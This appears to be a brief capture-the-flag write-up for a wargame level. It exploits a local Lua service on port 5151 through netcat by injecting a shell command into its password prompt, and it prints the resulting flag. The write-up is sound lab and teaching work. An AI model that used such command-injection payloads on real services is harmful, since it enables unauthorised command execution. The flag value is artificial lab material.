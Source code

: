 # level11

1. examinate existing files permissions

```shell
ls -la
```

shows a lua script that is supposed to run on 127.0.0.1:5151

2. try to connect to it with netcat

```shell
nc localhost 5151
```

Asking for a password, as expected

3. inject some code to trick the script to run getflag for us

```shell
pwnd; getflag | write level11; echo pwnd
```

gives flag `fa6v5ateaw21peobuub8ipe6s`
